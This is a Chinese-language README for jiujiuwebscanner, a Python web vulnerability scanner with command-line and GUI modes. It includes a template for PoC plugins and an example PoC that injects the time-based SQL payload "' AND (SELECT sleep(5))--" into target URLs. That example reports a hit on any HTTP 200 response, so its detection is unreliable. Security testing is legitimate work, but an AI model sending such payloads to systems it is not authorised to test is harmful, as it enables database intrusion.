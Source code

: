 # jiujiuwebscanner

## 初衷

* 没找到集成化扫描的工具，遂动手写了一个框架
* poc后面扩展

## 工具说明

### 一、简介

* poc主要测试web可能存在的漏洞

### 二、工具环境

* 完全的python环境

### 三、使用方式

* 命令行
* GUI

### 四、使用详解

#### 1、命令行利用方式
*进入 jiujiuwebscanner.py 文件所在目录，运行cmd程序

* 指定 url 主要部分（如：https://domain.com/?s=1）
```
python jiujiuwebscanner.py -t
```
*  指定url 文件（在同级目录下的urls.txt文件中输入想要扫描的url）
```
python jiujiuwebscanner.py -T
```
* 指定单个poc的绝对路径（形如 `D:\hackTools\hacktools\WebScan\jiujiuwebscanner\pocs\sql\SqlTimeInject.py`）
```
python jiujiuwebscanner.py -f
```
*  指定poc的目录，程序会遍历扫描目录下poc文件
```
python jiujiuwebscanner.py -F
```
* 指定扫描线程，支持多线程漏洞检测
```
python jiujiuwebscanner.py -n
```
* 开启GUI界面
```
python jiujiuwebscanner.py --gui
```
#### 2、GUI利用方式
* 选择输入单个url 或者 引用 url 文件
* 选择单个poc文件 或者 pocs 目录批量扫描
* 自由组合利用方式，单个扫描和批量扫描不能同时使用
#### 3、文件保存
* 扫描完成文件会自动保存在当前目录的名为result.txt的文件中，如果文件存在，则需要删除该文件，否则会导致扫描结果无法保存。

### POC 说明

*所有poc脚本都规范放在pocs文件中
#### 一、编写格式（.py）
```
import requests

def detect_vulnerability(target):
    url = target
    result  = False
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36'}
    payload = "...这里填写拼接字符串..."
    try:
        response = requests.get(url + payload, headers=headers, timeout=5)
        ...
        这里写入验证逻辑，返回字典result
        result = {
            'target': ...,
            'vulnerability': ...,
            'poc': ...
            }
        ...
        else:
            result = False
    except requests.RequestException as e:
        print(f'[-] Failed to connect to the target: {str(e)}')
    return result
```
*result{} 作为GUI面板漏洞检测结果和命令行检测结果的输出
#### 二、案例
```
import requests

def detect_vulnerability(target):
    url = target
    result  = False
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36'}
    payload = "' AND (SELECT sleep(5))--"
    try:
        response = requests.get(url + payload, headers=headers, timeout=5)
        if response.status_code == 200:
            result = {
            'target': target,
            'vulnerability': 'SQL time injection',
            'poc': "' AND (SELECT sleep(5))--"
            }
        else:
            result = False
    except requests.RequestException as e:
        print(f'[-] Failed to connect to the target: {str(e)}')
    return result
```

### 其他

* 含有AI创作部分
* 期望同道者可添加提交POC

### 部分图鉴
![](https://cdn.jsdelivr.net/gh/JiujiuPictures/pictures@main/blog%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-29%20203718.png)

![](https://cdn.jsdelivr.net/gh/JiujiuPictures/pictures@main/blog%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-06-29%20210323.png)

## 鸣谢

* springBoot漏洞检测poc在<https://github.com/rabbitmask/SB-Actuator>项目基础上修改。